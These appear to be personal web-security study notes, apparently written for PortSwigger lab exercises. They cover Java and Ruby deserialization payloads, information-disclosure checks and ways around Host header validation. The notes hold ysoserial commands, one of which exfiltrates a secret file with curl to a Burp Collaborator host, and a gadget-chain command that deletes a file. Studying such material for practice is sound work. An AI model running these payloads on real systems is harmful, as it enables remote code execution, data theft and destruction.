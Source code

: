 Java:

- [ysoserial](https://github.com/frohoff/ysoserial)
    - ex1. `java -jar ysoserial-all.jar CommonsCollections4 'ARBITRARY_OS_COMMAND' | base64 -w 0 | pbcopy`
    - ex2. `java -jar ysoserial-all.jar CommonsCollections6 'ARBITRARY_OS_COMMAND' | gzip -f | base64 -w 0 | pbcopy`
    
    ```
    java -jar ysoseriar.jar CommonsCollections7 'curl -d @/home/carlos/secret k3of2usea0s8kzkwsqnme9bj2a83ws.burpcollaborator.net' | gzip|base64
    
    java -jar ysoseriar.jar <PAYLOAD> 'COMMAND' | encoding
    ```
    
- Java Deserialization Scanner Burp Extension → active scan

Ruby:

If you URL-decode and then Base64-decode a session, and the first two bytes are **`04 08`**, there is a high probability that it is in Marshal format.

Marshal

- ex. `./ruby_gadgets_chain.rb 'rm /home/carlos/morale.txt' | pbcopy`

### Information Disclosure

Go to the "Target" > "Site Map" tab. Right-click on the top-level entry for the lab and select "Engagement tools" > "Find comments".

“Engagement tools" > "Discover content"

- TRACE method
- Check for suspicious file traces (such as comments) in the DOM
- Check /robots.txt and /backup
- Check for files with [filename]~, or .git
- Display error messages
- Use Logger++
- Always go for directory brute force and for .files(hidden files) e.g. .git

# Host Header Attacks

Test for modifications to this header, see if it is validated by the server

Study up on this in general, identify best way to identify this vuln

- Host header might have been used to send the request
- Bypassing validation
    - Including Host in the request line may skip the Host header validation
    - Adding two Host headers may skip validation for one of them
    - Embedding arbitrary strings in the port number
    - Replacing with a subdomain under your control
    - Trying SSRF WAF bypass techniques (e.g. 127.1)
    - Adding whitespace or tab characters before or after the Host header
    - Overwriting with the following hosts:
        - X-Host
        - X-Forwarded-Server
        - X-HTTP-Host-Override
        - Forwarded
- The validation for subsequent requests within the same connection may be weaker
    - Sending multiple requests in a single connection and exploiting the second request.
